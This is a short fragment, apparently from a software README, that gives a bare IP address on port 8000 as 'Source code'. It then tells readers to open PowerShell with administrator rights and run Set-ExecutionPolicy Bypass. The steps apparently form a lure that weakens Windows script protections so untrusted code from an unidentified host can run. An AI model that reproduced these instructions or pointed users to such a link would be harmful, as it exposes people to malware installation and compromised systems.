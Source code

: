 http://185.104.115.132:8000

Press Win+R to open the startup window.
Type `powershell` and hold down `Ctrl`+`Shift`+`Enter`

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser
```
